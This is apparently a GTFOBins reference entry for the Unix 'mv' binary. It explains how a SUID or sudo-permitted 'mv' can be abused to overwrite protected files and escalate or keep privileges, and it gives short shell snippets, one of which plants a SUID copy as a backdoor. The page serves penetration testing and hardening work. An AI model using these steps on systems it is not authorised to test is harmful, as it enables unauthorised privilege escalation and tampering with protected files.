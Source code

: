 # GTFOBin: mv

This can be used to move and then read or write files from a restricted file systems or with elevated privileges.

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which mv) .

LFILE=file_to_write
TF=$(mktemp)
echo "DATA" > $TF
./mv $TF $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_write
TF=$(mktemp)
echo "DATA" > $TF
sudo mv $TF $LFILE
```